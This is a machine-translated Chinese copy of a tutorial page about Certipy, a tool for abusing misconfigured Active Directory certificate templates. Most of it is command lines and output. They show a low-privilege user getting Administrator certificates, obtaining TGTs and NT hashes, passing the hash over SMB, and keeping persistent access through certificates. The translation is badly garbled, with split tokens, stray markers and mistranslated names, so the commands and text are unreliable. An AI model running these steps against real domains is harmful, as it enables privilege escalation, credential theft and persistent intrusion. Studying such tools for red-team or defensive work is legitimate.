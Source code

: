 # Certipy:针对 Active Directory 证书滥用的 Python 实现

> 原文：<https://kalilinuxtutorials.com/certipy/>

[![](img//c6986e67c942adfac42242cb00456ffb.png)](https://blogger.googleusercontent.com/img/a/AVvXsEg3sUJOtECI-8uHdvFxy8_2Su7ZusmuSNXs7txzYdzE0ixl3sEPfGaZBOzuE7IqilBuUIhA5fbO_II1c_QCD9lk7ymmVqdZn4GmvegOnvmtwFFvM0U_xFB8M0xfp-rk-y9DwQSNcGd7658SSS-T2WiSggfpCRJChlXwkaMeJaUWhvMXwfseA6IZ6nmN=s728)

Certipy 是一个 Python 工具，用于列举和滥用活动目录证书服务(AD CS)中的错误配置。

基于 C#变体 Certify from @harmj0y 和@tifkin_。

**安装**

**$ python3 setup.py 安装**

**用途**

**$ certipy -h
用法:certi py[-h][-DEBUG][-target-IP IP address][-name server name server][-DNS-TCP][-hashes lm hash:n hash][-no-pass][-k][-DC-IP address]
目标{find，req，auth，auto }……
Active Directory 证书滥用
位置参数:
目标[[domain/]用户名[:密码]@]
{find，req，req 根据目标参数从 ccache 文件(KRB5CCNAME)中获取凭据。如果找不到有效的凭证
，它将使用命令行中指定的凭证
-dc-ip ip 地址域控制器的 ip 地址。如果省略，它将使用目标参数
中指定的域部分(FQDN)连接:
-目标 ip ip 地址
目标机器的 ip 地址。如果省略，它将使用指定为目标的任何内容。这在目标是
NetBIOS 名称并且您无法解析它时很有用
-名称服务器名称服务器
名称服务器用于 dns 解析
-dns-tcp 使用 tcp 而不是 UDP 进行 DNS 查询
认证:
-哈希 lm hash:n hash
NTLM 哈希，格式为 lm hash:n hash**

**例题**

**自动**

自动滥用证书模板进行特权提升。此操作将尝试查找、请求并验证为`**Administrator**`用户。成功后，将保存一个凭据缓存，并将从 TGS_REP 中的 PAC 中解密 NT 哈希

为了演示错误配置证书模板是多么容易，默认的证书模板`**Web Server**`被复制到了`**Copy of Web Server**`。唯一的变化是 EKU `**Server Authentication**`被移除，认证用户可以注册。这将允许注册者指定主题并将其用于客户端身份验证，即作为任何用户进行身份验证。如果没有指定 eku，则证书可以用于所有目的。或者，人们可以添加`**Client Authentication**` EKU。

在本例中，用户`**john**`是一个低特权用户，他被允许注册`**Copy of Web Server**`模板。

**$ certi py ' predator/John:Passw0rd @ DC . predator . local ' auto
[*]用 CA 'predator-DC-CA' [* ]生成 RSA 密钥
[ *]请求证书[* ]请求成功
[ *]用 UPN '管理员'[【T9]]获得证书保存证书到' 1.crt'
[ *]保存私钥到' 1 . key '[【T11 将凭据缓存保存到“Administrator . ccache”
[*]尝试检索“Administrator@predator”的 NT 哈希[*]获得了“Administrator@predator”的 NT 哈希:fc 525 c 9683 e 8 Fe 067095 ba 2d DC 971889****

默认情况下，选择用户`**Administrator**`。使用`-**user**`参数为另一个用户创建证书。

**找到**

`find`动作将查找由一个或多个 ca 启用的证书模板。

**找到易受攻击的模板**

使用 **`-vulnerable`** 参数仅查找易受攻击的证书模板。

**$ certi py ' predator/john:pass w0 rd @ DC . predator . local ' find-vulnerable
[*]查找' John '的易受攻击证书模板
用户
姓名:predator\john
组:
证书颁发机构
0
CA 名称:predator-DC-CA
DNS 名称:dc.predator.local
证书主题:CN=predator-DC-CA，DC=predator、 DC =本地
证书序列号:1976d 0 fefcafc 9 a 84d 02d 305 fa 88d 84d
证书有效期开始:2021-10-06 11:32:01+00:00
证书有效期结束:2026-10-06 11:42:01+00:00
用户指定 SAN:禁用
CA 权限
所有者:BUILTIN\Administrator
有效期:2 年
续期:6 周
证书名称标志:enroluesupplies subject
注册标志:无
需要授权签名:0
扩展密钥用法:
权限
注册权限
注册权限:掠夺者\域管理员
掠夺者\企业管理员
认证用户
对象控制权限
所有者:掠夺者\管理员
写所有者委托人:掠夺者\域管理员
掠夺者\企业管理员【T43 predator\Administrator
写属性 principles:predator \ Domain Admins
predator \ Enterprise Admins
predator \ Administrator
易受攻击原因:“认证用户”可以注册，注册者提供主题和模板允许认证
“认证用户”可以注册，模板有危险 EKU**

使用`**-user**`参数为另一个用户查找易受攻击的证书模板。默认情况下，将使用当前用户。

**找到所有模板**

**$ certi py ' predator/john:pass w0 rd @ DC . predator . local ' find
[*]查找' John '的证书模板
用户
名称:predator\john
组:
证书颁发机构
0
CA 名称:predator-DC-CA
DNS 名称:dc.predator.local
证书主题:CN=predator-DC-CA，DC=predator、 DC =本地
证书序列号:1976d 0 fefcafc 9 a 84d 02d 305 fa 88d 84d
证书有效期开始:2021-10-06 11:32:01+00:00
证书有效期结束:2026-10-06 11:42:01+00:00
用户指定 SAN:禁用
CA 权限
所有者:BUILTIN\Administrator
年份
续订期:6 周
证书名称标志:subjectrequiredirepath
subjectrequirememail
SubjectAltRequireEmail
SubjectAltRequireUpn
注册标志:自动注册
publishettos
包含对称算法
所需授权签名:0
扩展密钥用法:加密文件系统
安全电子邮件
客户端身份验证
权限
注册权限
注册权限:predator\Domain Admins
predator \ Enterprise Admins
写 Dacl 主体:predator \ Domain Admins
predator \ Enterprise Admins
写属性主体:predator \ Domain Admins
predator \ Enterprise Admins
[…]
11
CAs:predator-DC-CA
模板名称:Web 服务器副本
有效期:2 年
续订期:6 周
证书名称标志:enroluesupplies subject
注册标志:无
需要授权签名:0
扩展密钥用法:
权限
注册权限
注册权限:predator \域管理员
predator \企业管理员【T68 掠夺者\企业管理员
掠夺者\管理员
写 Dacl 主体:掠夺者\域管理员
掠夺者\企业管理员
掠夺者\管理员
写属性主体:掠夺者\域管理员
掠夺者\企业管理员
掠夺者\管理员**

**请求**

从证书模板申请新证书。默认情况下，将使用在`**target**`参数中指定的当前用户。

**作为另一用户请求**

要以另一个用户的身份申请证书，请使用`**-alt**`参数。这仅适用于注册者指定主题的证书模板，或者当 CA 允许注册者指定 UPN 时，即`**User Specified SAN**`设置为`**Enabled**`。

在这个例子中，用户`**john**`是低特权用户。证书模板`**Copy of Web Server**`是默认`**Web** **Server**`模板的副本。EKU `**Server Authentication**`被移除，因此模板没有 EKU(没有 EKUs =任何用途)。默认的`*Web Server*`模板允许注册者提供主题。

`**john**`将作为`**jane**`请求认证有效的证书。CA `**predator-DC-CA**`已经`**Copy of Web Server**`启用。

**$ certi py ' predator/John:Passw0rd @ DC . predator . local ' req-template ' Web 服务器副本'-CA ' predator-DC-CA '-alt ' Jane '
[*]生成 RSA 密钥[* ]请求证书
[ *]请求成功[* ]用 UPN 'jane'
[ *]获得证书保存证书到' 2.crt' [* ]保存私钥到' 2.key'**

证书和密钥将被 DER 编码并保存到`**<request ID>.(crt|key)**`，其中`**request ID**`由服务器返回。

**要求成为自我**

也可以为当前用户申请证书。对于持久性来说，这是一个很好的选择，因为证书不受密码更改的影响。默认情况下，允许域用户注册默认的`**Use**r`模板。

**$ certi py ' predator/John:Passw0rd @ DC . predator . local ' req-template ' User '-CA ' predator-DC-CA '
[*]生成 RSA 密钥[* ]请求证书
[ *]请求成功[* ]用 UPN ' John @ predator . local '
[*]获得证书保存证书到' 3.crt' [* ]保存私钥到' 3.key'**

**认证**

`auth`动作将使用 PKINIT Kerberos 扩展来验证所提供的证书。必须在`**target**`参数中指定目标用户。如果未指定，Certipy 将尝试从证书中提取 UPN。TGT 将被保存在`**<username>.ccach**e`的凭证缓存中。

将通过使用 Kerberos U2U 为当前用户请求一个 TGS 来提取 nt 哈希，其中加密的 PAC 将包含可以解密的 NT 哈希。

$ certi py ' predator/Jane @ DC . predator . local ' auth-cert。/2.crt -key。/2.key
[ *]使用 UPN: 'jane@predator' [* ]尝试获取 TGT…
[ *]将凭据缓存保存到' jane.ccache' [* ]尝试检索' jane@predator '的 NT 哈希
[*]获取' jane@predator '的 NT 哈希:077 cccc 23 F8 ab 7031726 a3 b 70 c 694 a 49

**使用 NT 哈希**

您可以简单地为许多服务传递散列(PTH)。例如中小型企业:

**$ in packet-SMB client-hashes:fc 525 c 9683 e 8 Fe 067095 ba 2d DC 971889 ' predator . local/administrator @ DC . predator . local '
in packet v 0 . 9 . 23–Copyright 2021 secure auth Corporation
键入命令列表帮助
who
host: \172.16.19.1，user: administrator，active: 1，idle: 0**

**使用凭证缓存**

凭据缓存当前保存一个 TGT。TGT 可用于向 TGS 请求服务。例如，在`**dc.predator.local**`为`**cifs**` (SMB)服务请求 TGS:

**$ #使用 Certipy 中的 TGT
$ export krb 5c name =。/administrator . ccache
$ # request TGS
$ impacket-getST-SPN ' CIFS/DC . predator . local '-DC-IP 172 . 16 . 19 . 100-no-pass-k ' predator/administrator '
$ #使用来自 impacket-getST
$ export krb 5c name =。/administrator.ccache
$ #使用 TGS 运行 smbclient(注意 FQDN)
$ Impacket-SMB client-k-no-pass ' predator . local/Administrator @ DC . predator . local '
Impacket v 0 . 9 . 23–Copyright 2021 secure auth Corporation
键入命令列表的帮助
#who
主机:\172.16.19.1，用户:管理员，活动:1，空闲:0 【T12**

**注意**`impacket-getST`将在`<username>.ccache`覆盖凭证缓存。在使用`impacket-getST`请求 TGS 之前，从 Certipy 创建凭据缓存的副本。

[**Download**](https://github.com/ly4k/Certipy)